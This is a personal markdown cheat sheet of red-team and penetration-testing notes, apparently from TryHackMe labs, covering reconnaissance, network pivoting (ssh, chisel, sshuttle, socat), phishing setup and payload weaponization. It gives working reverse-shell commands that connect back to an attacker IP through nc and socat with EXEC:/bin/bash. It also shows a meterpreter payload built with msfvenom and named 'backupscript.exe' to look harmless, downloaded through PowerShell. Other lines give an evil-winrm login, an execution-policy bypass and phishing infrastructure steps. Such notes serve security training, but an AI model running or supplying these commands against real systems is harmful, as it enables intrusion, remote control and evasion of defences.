

- [Basic Steps](#basic-steps)
  - [Active](#active)
- [PIVOTING](#pivoting)
  - [SSH](#ssh)
  - [PROXY](#proxy)
  - [SS](#ss)
  - [PLINK.EXE](#plinkexe)
  - [CHISEL](#chisel)
  - [SSHUTTLE](#sshuttle)
  - [SOCAT](#socat)
- [External Tools](#external-tools)
- [Phishing](#phishing)
- [Passive](#passive)
  - [recon-ng](#recon-ng)
  - [Weaponization](#weaponization)
- [Wireshark](#wireshark)

## Basic Steps
- Enumerate
- Find everything that there is outside and inside
  - Number of machines
  - services running
  - Public interface
  - git server
  - public IP
    - arp
  - network connections
- find services running, find cve for these services
- stablish stable connection (pivoting): reverse shell, proxy, ssh, port forwarding, socat, sshuttle
- get ssh key if they are available
- upload/download files
- No dns if web: add to etc/hosts
- Pivot = Pivot host = Proxy = Foothold = Beach Head system = Jump host
- [Diagrams](https://app.diagrams.net/)



- Tunneling != Pivoting
  - Tunneling = encapsulate
  - pivoting = accessing through segmentation
  - Lateral movement: [Palo Alto](https://www.paloaltonetworks.com/cyberpedia/what-is-lateral-movement) | [Mitre](https://attack.mitre.org/tactics/TA0008/)

- Basic commands
  - netstat
    - -r route
  - ip
    - route

### Active
- interacting
- https://www.rapid7.com/db/
- searchsploit

## PIVOTING
-  from on machine to another
-  tunnelling/proxying: route all traffic (a lot of traffic)
-  port forwarding: create connection (few ports)
-  ProxyChain
- (linux) firewall-cmd --zone=public --add-port PORT/tcp
- (windows) netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT

### SSH
- -o PubkeyAcceptedKeyTypes=ssh-rsa
  - declares SSH key type that client uses
- -o PasswordAuthentication=no
  - no password
- -o PreferredAuthentications=publickey,password,keyboard-interactive
- In the command: ~C = to execute ssh commands
[Port Forwarding](https://notes.benheater.com/books/network-pivoting)

```
# sshd_config
# config for specific user
Match junkuser
    PermitRootLogin no
    PermitTTY no
    PermitUserRC no
    ForceCommand "echo 'This account is for port forwarding only'"
    PasswordAuthentication yes
    PermitEmptyPasswords no
    MaxAuthTries 2   
    AllowAgentForwarding no
    X11Forwarding no
	X11UseLocalhost no
```

- SSH tunneling over socks proxy
  - socks: socks client ----> socks server (attacker) => traffic is routed through socks
  - socks4: no authentication, no UPD
  - socks5: authentication, UDP
  - open port on attacking

- **-L Local Port Forwarding**
  - when: we know which service is listening at which port
  - ssh -L [local_port]:target:[port_on_target] user@$TARGET -fN
  - ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
  - -f = background
  - -N no command execution
- **-D Dynamic Port Forwarding**
  - When: we dont know which services lie on the other side = forward traffic to target network
  - ssh -D SOCKS_LISTENER_PORT user@$TARGET
  - ssh -D 9050 user@$TARGET

- **-R Reverse/Remote Port Forwarding**
  - Send traffic from remote target to attacker
  - ssh Remote from pivot:8080 to attacker:8000
    - ssh -R InternalIPPivot:PivotPORT:0.0.0.0:LocalPort user@$PIVOT -vN

```
# meterpreter shell ==> Pivot:8080 --> Attacker:8000
# Example reverse shell for remote forwarding
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
  - use exploit/multi/handler
    - lhost: 0.0.0.0 - lport 8000
    - payload windows/x64/meterpreter/reverse_https
    - payload windows/x64/meterpreter/reverse_http
    - payload windows/x64/meterpreter_reverse_https

or http or inline

# Upload in windows (invoke-webrequest)
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

  - Steps
    - Create msf reverse_shell (on attacker) http|https|stage|stageless
    - upload to pivot (to pivot)
    - start http server (on pivot)
    - download shell (remote target)
    - run ssh -R PivotInternalIp:port:Attacker0.0.0.0:Port User@PivotPublic + Dynamic
   

- Check forwarding
  - netstat -antp
    - -a: show all listening/non-listening sockets
    - -n: numerical address
    - -p: program/pid

### PROXY
- proxychains: route packaet over 9050, force application traffic to go through proxy
    - SOCKS Tunneling = packing command packet and forwarding to remote server
  - proxychains command
    - proxychains nmap -Pn -sT = host-alive NOT in windows (block ICMP), TCP Full
    - proxychains msfconsole@xfreerdp

```
#Proxychain
# /etc/proxychains.conf

socks4 	127.0.0.1 9050
```

- FoxyProxy
  - better for web

- Tools
  - [ssh-audit.py](https://github.com/jtesta/ssh-audit)

- Steps
  - create key pair on the attacking machine
  - transfer private key to victim
  - stablish connection from victim to attacking
  - ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
  - Browser: localhost
  - executing on we habe the shell

- **Reverse Connections**
  - generate ssh key
  - put .pub in authorized: command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-x11-forwading,no-pty ssh-rsa key
  - restart ssh
  - transfer private key to target: 
  - port forward: ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
  - reverse proxy: ssh -R 1337[localport] USERNAME@ATTACKING_IP -i KEYFILE -fN

### SS
- tool to investigate sockets
- -t: tcp sockets
- -u: udp sockets
- -l: listening
- -p: show process
- -n: dont resolve 

### PLINK.EXE
- command line for putty
- cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
- convert key with puttygen: puttygen key -o xxx.ppk

### CHISEL
- set up tunnel proxy / port forward
  
- client / server 
  
- Reverse SOCKS Proxy
  - server: chisel server -p [port] --reverse &
  - client (victim0): ./chisel client [attacker]:8005 R:socks &
    - R = remote, client knows that server antecipate proxy
- 
- Forward SOCK Proxy
  - victim: ./chisel server -p LISTEN_PORT --socks5
  - attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
  
- Port Forward
  - attacker: ./chisel server -p LISTEN_PORT --reverse &
  - victim to target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
  - victim to our machine: ./chisel server -p 1337 --reverse &
  
- Local Port Forward
  - attacker: ./chisel server -p LISTEN_PORT
  - Victim: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
    - Victim: chisel client ATTACKER:PORT R:LOCALPORT:localhost:TargetPORT 

- In the machine with evil-win open firewall port
  - cd w
  - chisel client => attacking
  - chisel server => victim

### SSHUTTLE
- easier to handle
- only linzx
- need ssh access to public interface
- sshuttle -r username@address subnet  
  - -N to guess the subnet
- No password:
  - sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET
  - -x exclude compromised server
- Direct access to evil-winrM
  - evil-winrm -u pacoca -p 123456 -i 10.200.101.150
-Reset resolved.service: sudo systemctl restart systemd-resolved.service

### SOCAT
- Reverse shell
  - listener on the attacker
  - relay on compromised: ./socat tcp-l:8000 tcp:Attacker-IP:443 &
  - create reverse shell from compromised to attacker: nc localhost 8000 -e/bin/bash

- Port Forwarding - Method 1
  - open port on victim + redirect to target server = ./socat tcp-l:[port_on_victim],fork,reuseaddr tcp:[target_ip]:3306 &

- Method 2 -Quieter - read more about that https://tryhackme.com/room/wreath: 
  - Attacker, opens to ports: socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
  - victim: ./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
- on victim: ./socat tcp-l:8000 tcp:10.50.102.138:443 & => connect victim back to us on port 443
- on victim: ./nc 127.0.0.1 8000 -e /bin/bash ==> listen to port 8000 
- Port Forwarding [From_Compromised_to_TARGET]: ./socat tcp-l:[port_on_compromised],fork,reuseaddr tcp:[IP_Target]:3306 &

- Encrypted:
  - Create key + Litener + Connect
  - Create certificate: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
  - merge keys: cat shell.key shell.crt > shell.pem
  - listener: socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
  - connect back: socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
 close all:
  - jobs ==> find socats processes 

- Steps:
```
# Create key
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

# req = certificate
# -x509 = type of certificate
# -newkey rsa:4096 = type of key with size
# -days = valid
# -subj = organization, country
# -nodes = NOT encrypt private key
# -keyout PRIVATE = file with the private key
# -out Certificate = file to write certificate

# PEM = privace enhanced mail = concat .key + .cert
cat thm-reverse.key thm-reverse.crt > thm-reverse.pem.

# Start listener
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

# Connect
socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash

# Without encryption
  # Listener # socat -d -d TCP-LISTEN:4443,fork STDOUT
  # Victim   # socat TCP:10.20.30.129:4443 EXEC:/bin/bash
```

## External Tools
- enum4linux IP_
- metasploit (smb/enum || ssh/enum)
- gobuster / ffuf
- lienum (linux): 
  - the file must be executed in the target
  - search for readble important files
- executables (SUID): find / -perm -u=s -type f 2>/dev/null 
- How to abuse of each executable: https://gtfobins.github.io/gtfobins/vim/

- PowerSploit (windows)
  - in the target 


## Phishing
- Steps
  - register domain name
  - ssl/tsl certificated
  - email server/account
  - Dns records
  - web server
  
- emlAnalyzer
  - --header
  - -u
  - --text
  - --extract-all

- GoPhish
  - manage phishing campaings

- Droppers
  - poison, downloaded file

## Passive
- whois
- nslookup -type=?? URL SERVER
- dig SERVER URL TYPE
- host
- Google Hacking Database
  - [intitle:"index of" "nginx.log"](https://www.exploit-db.com/google-hacking-database)
  - 
- Google
  - blabla site:
  - filetype:pdf  inurl:www.google.de
  - site:hs-worms.de filetype:docx
  - *intitle:index.of site:*
  - *intitle:login*
  - cache:url
  - https://web.dev/measure/
  - robots.txt

- Maltego
  - graphical

- DNS:
  - shodan.io [check black friday - https://www.shodan.io/]
  - https://viewdns.info/
  - https://threatintelligenceplatform.com/

### recon-ng
- Workspace:
  - workspace create NAME
  - db schmea = check database
- marketplace search MODULE
  - info, install, remove MODULE
- Modules
  - module search/load  
  - options list/set/unset

### Weaponization
- Developing malicious code
- https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development
- VBE
- HTA - Html application
- windows reverse shell
  - get-executionpolicy = for ps1 files
  - set-executionpolicy -Scote Currentuser remotesigned
  - powershell -ex bypass -File name.ps1

## Wireshark
- statistical of
  - protocol
  - ip
  - ports
  - services
- watch out
  - addreses in user
  - suspicious address
  - suspecious port
  - services in user
  - level of traffic
- Check queries
  - dns
  - http